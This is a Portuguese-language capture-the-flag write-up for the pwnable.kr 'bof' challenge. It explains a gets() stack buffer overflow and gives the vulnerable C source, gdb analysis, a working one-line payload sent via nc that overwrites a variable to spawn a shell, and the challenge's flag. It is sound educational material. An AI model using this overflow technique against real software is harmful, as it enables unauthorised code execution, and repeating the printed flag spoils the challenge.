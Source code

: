 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

O primeiro passo para executar esse desafio é baixar tanto o executável `bof` quanto o código-fonte `.c`. Com isso, é possível analisar o código em C para compreender seu funcionamento e direcionar os esforços corretamente.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Após a análise do código, observa-se que o objetivo é alcançar a linha `system("/bin/sh")`, permitindo o acesso a uma interface onde possivelmente estará a flag. Para atingir esse ponto, a variável `key` deve conter o valor `0xcafebabe`. Como a função `gets` é vulnerável a buffer overflow, pode-se explorar essa vulnerabilidade para sobrescrever a memória. No entanto, antes de qualquer ação, é necessário mapear a stack para inserir as informações no local correto.

O primeiro passo é conceder permissão de execução ao `bof` com o seguinte comando:

```
chmod +x bof
```

Em seguida, executa-se o programa:

```
./bof
```

Para analisar a estrutura da memória, utiliza-se a ferramenta `gdb` com o comando:

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

Para verificar se a vulnerabilidade de buffer overflow de fato existe, pode-se inserir uma entrada maior que os 32 bytes da variável `overflowme`, somados aos 8 bytes do base pointer. Dessa forma, é possível atingir alguma área específica da memória e observar eventuais erros.

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

O software GDB acusou um erro denominado `stack smashing detected`, indicando que a stack foi corrompida. Essa informação confirma que o código é vulnerável a buffer overflow. A partir desse ponto, a análise pode prosseguir para localizar as informações que precisam ser manipuladas na memória.

Utiliza-se o comando `(gdb) disas <função_analisada>` para analisar as funções `main` e `func`:

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

Na `main`, observa-se que o valor `0xdeadbeef` é passado para a função `func` no momento da chamada.

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

Já na `func`, identifica-se o valor `0xcafebabe`, que precisa ser inserido na variável key para acessar `system("/bin/sh")`. Com essas informações em mãos, o próximo passo é interromper a execução quando a função `gets` for chamada, utilizando o comando `break gets`.
Após definir o breakpoint, executa-se o código com `run`. O programa aguardará a entrada do usuário ao alcançar `gets`. Ao inserir `next` e prosseguir com um valor, é possível identificar o endereço de memória onde a execução continua.

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

Em seguida, confirma-se a localização dos dados em `ebp+8` e `ebp-0x2c`, onde a entrada do usuário foi armazenada.

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

Com esses valores, calcula-se a distância entre eles para determinar quantos bytes precisam ser escritos até atingir a variável `key` e realizar a comparação desejada.

![image](https://github.com/user-attachments/assets/1f67f213-4ef6-46db-8cbf-85da81d03e7a)

Agora, com todas as informações necessárias, basta executar o comando que insere 52 bytes de padding (`NOPs`) seguidos pelo valor `0xcafebabe` na variável `key`, garantindo o acesso à `system("/bin/sh")`.

```(python -c "print '\x90'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

Por fim, executa-se o comando para capturar a flag (`****`):

```
cat flag
```
> Assim, obtemos a flag `daddy, I just pwned a buFFer :)`


<!--

TIRAR CANARY
```
gcc -fno-stack-protector -z execstack -no-pie -o bof bof.c
```

![image](https://github.com/user-attachments/assets/50d458d7-5525-4248-b460-442361f6351f)

![image](https://github.com/user-attachments/assets/c18595e5-ba5a-4f99-9f7b-21f4e246069d)

![image](https://github.com/user-attachments/assets/cdf1fbca-ef25-49ba-bb03-881f63d7157a)
 
 -->



